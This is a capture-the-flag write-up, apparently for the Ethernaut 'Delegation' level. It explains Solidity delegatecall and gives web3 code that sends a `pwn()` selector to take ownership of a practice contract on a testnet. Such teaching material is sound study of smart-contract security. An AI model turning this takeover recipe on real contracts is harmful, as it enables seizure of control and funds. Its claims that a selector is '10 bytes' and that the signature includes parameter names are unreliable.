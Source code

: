 Delegate calling means you take the implementation logic of the function in the contract you're making this call to but using the storage of the calling contract. Since all sender, value and data are kept intact when performing the delegate call, to solve this challenge you will need to wrap and pass a malicious encoded payload. In this case, we see that the `pwn()` function will makes the player own the main contract.

The main takeaway in this level is that it's very easy introduce bugs to your contract if you use `delegation`, you need to be careful.

### Solution
1. First, we need to define the payload that we are going to wrap in the delegation call so it's interpreted by the delegation contract. It's important to understand that all function in Ethereum have a signature, which are the first 10 bytes of the keccak256 hashed string `function_name(type1 parameter_name1 visibility1, ...)":  
- Option 1:  
```
let payload = web3.eth.abi.encodeFunctionSignature({
    name: 'pwn',
    type: 'function',
    inputs: []
});
```

- Option 2:  
```
let payload = web3.utils.keccak256("pwn()").slice(0,10);
```

2. Send the tx with the malicious payload as data:  
```
await contract.sendTransaction({data: payload});
```

My tx in testnet: https://rinkeby.etherscan.io/tx/0x1f5c3c05d8147852a7f9761351a70ed7bbb4314af244d3e022e581b5eed6d72e
